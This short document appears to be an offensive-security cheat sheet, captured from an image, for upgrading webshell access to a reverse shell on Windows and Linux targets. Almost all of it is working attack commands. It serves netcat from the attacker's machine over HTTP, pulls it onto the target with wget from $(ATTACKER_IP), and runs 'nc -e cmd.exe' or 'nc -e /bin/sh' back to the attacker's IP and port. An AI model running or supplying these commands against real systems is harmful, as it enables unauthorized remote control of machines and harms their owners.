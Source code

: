 Using a webshell, multiple ways can be done to get a revshell - but this way's consistent.

Transfer nc to target! 

Windows target:
```bash
sudo cp /usr/share/windows-resources/binaries/nc.exe .
```
Linux target:
```bash
sudo cp /usr/bin/nc .
```
```bash
python -m http.server 80
```

On windows webshell:
```batch
powershell wget -Uri http://$(ATTACKER_IP)/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
Linux:
```bash
wget http://$(ATTACKER_IP)/nc
```
Finally:
```batch
C:\Windows\Temp\nc.exe -e cmd.exe $(ATTACKER_IP) $(ATTACKER_PORT)
```
or
```bash
nc -e /bin/sh $(ATTACKER_IP) $(ATTACKER_PORT)
```
